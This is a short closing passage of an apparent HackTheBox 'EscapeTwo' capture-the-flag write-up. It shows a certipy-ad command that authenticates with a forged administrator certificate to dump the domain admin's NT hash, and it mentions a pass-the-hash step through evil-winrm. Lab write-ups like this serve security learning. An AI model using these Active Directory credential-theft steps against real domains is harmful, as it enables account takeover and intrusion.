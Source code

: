 #### Step 7: Dumping admin NT hash

```bash
certipy-ad auth -pfx administrator_10.pfx  -domain sequel.htb
```

![caption](assets/htb-escapetwo-24.png)

#### Step 8: PtH through evilwin-rm

![caption](assets/htb-escapetwo-25.png)

>**Such a tiring, rewarding and fun machine! Rooted**
{: .prompt-tip }

